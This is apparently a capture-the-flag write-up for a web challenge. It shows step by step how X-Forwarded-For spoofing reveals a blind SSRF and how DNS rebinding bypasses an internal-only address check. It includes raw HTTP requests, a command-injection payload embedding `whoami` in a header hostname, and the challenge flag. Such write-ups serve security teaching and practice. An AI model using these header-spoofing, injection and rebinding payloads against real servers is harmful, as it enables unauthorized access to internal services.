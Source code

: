 # Challenge Name: Sneaky


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-200-blue.svg)  


## Description

Think you have what it takes to crack our code? We've built this web application to be a real head-scratcher, but if you can unravel the mystery and find the hidden flag, you'll prove that you're a true master of the game. Best of luck!

[https://ideh-sneaky.chals.io](https://ideh-sneaky.chals.io/)

**Author**: j4kom

## Detailed solution

After visting the webpage we can see a message Not allowed

The first thing came to my mind is using headers to bypass the restriction https://gist.github.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1

After checking X-Forwarded-For i found a new response

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 16:48:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 45
Connection: close

The DNS query name does not exist: 127.0.0.1.
```
It possible that the web application is trying to do a dns lookup. I switched to burp collaborator to test it

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: sa60d3wjma6d6m6yg9x2svjea5gv4k.burpcollaborator.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
We got not allowed 

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 16:53:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 12
Connection: close

Not allowed.
```
If we check burp collaborator, we can see that we got a dns lookup for the web app

![image](https://user-images.githubusercontent.com/72421091/221628867-6eca300f-833c-48fb-955d-abc7ff13902c.png)

We have a blind SSRF

```
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.
```
```
Blind SSRF vulnerabilities occur when an application is making a request to a back-end server due to some reasons but the response 
is not shown on the front-end.
```
You can find more details on how to exploit SSRF https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

I did a quick test using an command injection in domain name to see how the app will react 

```
X-Forwarded-For: `whoami`.sa60d3wjma6d6m6yg9x2svjea5gv4k.burpcollaborator.net
```

We receive a new error now related to timout but dns lookup received dosen't include anyting with the subdomain 

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 17:01:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 258
Connection: close

The resolution lifetime expired after 5.403 seconds: Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.; Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.; Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.
```

I detect a differnce between sending localhost ip and a domain. When sending a domain, we got not allowed after dns lookup which means that the web app is accepting only internal adresses.

We can abuse this using an attack called DNS rebinding. We can trick the webapp by changing the ip to 127.0.01 and after the check change it to another address

We can use tool for that https://lock.cmpxchg8b.com/rebinder.html 

I put an internal ip with localhost just for checking

7f000001.c0a80001.rbndr.us

As we can see the address is changed 

![image](https://user-images.githubusercontent.com/72421091/221631899-ac3cbbad-a096-43d1-9e94-71b86294fa0a.png)

Now let's try with our app

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: 7f000001.c0a80001.rbndr.us
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 17:14:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 24
Connection: close

IDEH{Tr1ky_DNS127_0_0_1}
```

We got our flag

## Flag

```
IDEH{Tr1ky_DNS127_0_0_1}
```
